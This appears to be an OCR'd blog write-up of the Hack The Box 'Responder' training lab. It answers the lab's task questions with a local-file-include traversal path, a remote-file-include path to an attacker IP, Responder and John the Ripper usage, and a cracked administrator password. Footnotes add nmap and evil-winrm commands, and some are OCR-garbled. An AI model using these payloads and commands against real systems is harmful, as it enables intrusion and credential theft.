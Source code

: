 ```yaml
---
layout: ../../layouts/BlogPost.astro
title: "[Hack The Box] [Starting Point] [Tier 1] Responder"
uuid: a13d8a98-2f3f-11ed-ab02-c2af19d2d6e3
version: 295
created: Thu, 08 Sep 2022 06:29:45 +0000
tags:
- z-class/career/pentest
- y-type/resource
- x-status/publish/writeup
---
```


**TASK 1**

**When visiting the web service using the IP address, what is the domain that we are being redirected to?** unika.htb

**TASK 2**

**Which scripting language is being used on the server to generate webpages?** php

**TASK 3**

**What is the name of the URL parameter which is used to load different language versions of the webpage?** page

**TASK 4**

**Which of the following values for the \`page\` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"?** ../../../../../../../../windows/system32/drivers/etc/hosts

**TASK 5**

**Which of the following values for the \`page\` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"?** //10.10.14.6/somefile

**TASK 6**

**What does NTLM stand for?** New Technology Lan Manager

**TASK 7**

**Which flag do we use in the Responder utility to specify the network interface?** -I

**TASK 8**

**There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as \`john\`, but the full name is what?** John The Ripper

**TASK 9**

**What is the password for the administrator user?** badminton


[^1]: C
[^2]: C
[^3]: C
[^4]: \[us- starting-point-vip-1-dhcp\]-\[10. 10. 14.34\]-\[htb- versunpan@pwnbox-base\]-\[\~\]
[^5]: - \[\*\]$ nmap -p- -T5 -sV $ip
[^6]: \[\*\]$ evil-winrm -i 10. 129.212.201 -u administrator -P 5985 -p badminton
[^7]: Responder Write-up
[^8]: Windows New Technology LAN Manager (NTLM)